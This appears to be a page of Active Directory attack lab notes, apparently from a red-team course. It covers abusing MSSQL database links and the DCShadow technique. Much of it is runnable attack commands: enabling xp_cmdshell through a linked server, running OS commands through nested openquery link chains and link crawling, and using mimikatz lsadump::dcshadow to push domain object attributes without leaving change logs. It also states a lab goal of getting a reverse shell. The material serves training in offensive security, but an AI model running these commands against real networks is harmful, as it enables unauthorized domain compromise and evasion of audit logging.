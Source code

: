 #### Executing Commands 

- On the target server, either xp_cmdshell should be already enabled; 
- Or if rpcout is enabled (disabled by default), xp_cmdshell can be enabled using:
```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

#### Executing Commands by Crawl (Nested Database Links)
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
```

##### or 

From the initial SQL server, OS commands can be executed using nested link queries: 
```sql 
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

# Learning Objective 22

Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.


# DCShadow

• DCShadow temporarily registers a new domain controller in the target domain and uses it to "push" attributes like SIDHistory, SPNs etc) on specified objects without leaving the change logs for modified object

• The new domain controller is registered by modifying the Configuration container, SPNs of an existing computer object and couple of RPC services. 

• Because the attributes are changed from a "domain controller", there are no directory change logs on the actual DC for the target object. 

• By default, DA privileges are required to use DCShadow. 

• In my experiments, the attacker's machine must be part of the root domain.

## We can use mimikatz for DCShadow

Two mimikatz instances are required: 

• One to start RPC servers with SYSTEM privileges and specify attributes to be modified:
```cmd
!+ 
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow" 
```

• And second with enough privileges (DA or otherwise) to push the values. 
```cmd
lsadump::dcshadow /push
```
